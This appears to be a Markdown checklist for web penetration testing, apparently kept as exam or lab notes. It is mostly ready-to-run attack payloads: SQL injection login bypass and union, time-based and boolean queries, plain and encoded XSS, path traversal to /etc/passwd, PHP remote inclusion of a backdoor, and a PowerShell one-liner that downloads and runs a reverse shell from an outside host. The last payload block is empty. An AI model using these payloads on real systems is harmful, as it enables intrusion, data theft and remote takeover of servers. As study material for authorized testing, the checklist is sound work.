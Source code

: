 ### After connecting to the website from firefox

- [ ] Look over every page
- [ ] Take note of people's names for usernames
- [ ] Take note of any forms and ways to send a post request to the server
- [ ] Try SQL Injection on **EVERY** form ([cheatsheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/))
```
admin' or '1'='1' -- //
```
- [ ] Try XSS on **EVERY** form ([cheatsheet](https://gist.github.com/sseffa/11031135))
```
<script>alert(42)</script>
```
- [ ] Try encoded XSS Injection on **EVERY** form ([cheatsheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/))
```
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```
- [ ] Attempt basic path traversal
```
curl http://192.168.xxx.xxx/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

#### If page ends with `.php`
- [ ] Try something like this to get commands to execute
```
curl "http://192.168.xxx.xxx/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```
- [ ] PHP Webshell
```
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls
```

#### If command injection is possible on windows
- [ ] Check if the server is being run on windows or powershell
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell`
```
- [ ] If powershell, create payload
```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.218/reverse_shell.exe");.\reverse_shell.exe
```
- [ ] URL encode with [cyberchef](https://gchq.github.io/CyberChef/) and include as command

#### If SQL injection is possible
- [ ] Check this query to see if anything is being printed
```sql
SELECT @@version;
```
- [ ] Run this and change 1 to discover number of columns
```sql
ORDER BY 1-- //
```
- [ ] Attempt Union based payload
```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
```
- [ ] Test for time-based SQLi payload
```
http://192.168.xxx.xxx/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```
- [ ] Test for boolean-based SQLi payload
```sql
```